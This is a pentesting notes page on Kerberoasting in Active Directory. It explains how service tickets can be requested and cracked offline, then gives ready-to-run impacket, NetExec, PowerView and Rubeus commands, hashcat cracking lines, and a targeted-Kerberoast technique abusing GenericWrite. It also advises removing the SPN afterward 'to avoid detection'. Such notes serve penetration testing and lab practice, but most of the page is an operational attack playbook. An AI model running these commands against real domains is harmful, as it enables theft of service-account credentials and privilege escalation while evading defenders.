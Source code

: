 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

{% hint style="info" %}
Typically, **Kerberoasting happens after compromising a domain user**. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to **perform this attack with an account susceptible to** [**ASREPRoast**](as-reproasting.md)! For an example of this attack vector check [Rebound](../../../boxes/insane/rebound.md#kerberoasting).
{% endhint %}

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](broken-reference) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack

> _For an example of Kerberoasting check_ [_Sizzle_](https://x7331.gitbook.io/boxes/boxes/insane/sizzle#path-to-victory) _(Rubeus) and_ [_Active_](https://x7331.gitbook.io/boxes/boxes/easy/active#eop-via-kerberoasting) _(NetExec)._

{% tabs %}
{% tab title="Linux" %}
Check if an account has an SPN:

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```

Kerberoast the target account:

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with impacket
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with impacket
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

Crack the hashes:

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
Check if an account has an SPN:

{% code overflow="wrap" %}
```powershell
# Enumerate Kerberoastable accounts with PowerView
Get-DomainUser * -SPN | select samaccountname

# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname

# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
{% endcode %}

Then we can proceed to Kerberoast the target account:

{% code overflow="wrap" %}
```powershell
# Kerberoast the enumerated accounts with PowerView
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

Crack the hashes:

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account:

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoast

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast).&#x20;

{% hint style="warning" %}
Remember to **clean up** by removing the SPN afterward to avoid detection!
{% endhint %}

```bash
targetedKerberoast.py -v -d <domain_FQDN> -u <user> -p <pass>
```

## Resources

* An amazing demonstration of Kerberoasting ([video](https://www.youtube.com/watch?v=-3MxoxdzFNI))
* What `impacket-GetUserSPNs` does behind the scenes ([video](https://www.youtube.com/watch?v=xH5T9-m9QXw))
* Siegecast's lecture on Kerberoasting ([video](https://www.youtube.com/watch?v=Jaa2LmZaNeU))
* An in-depth adsecurity article about Kerberoasting ([article](https://adsecurity.org/?p=3458))
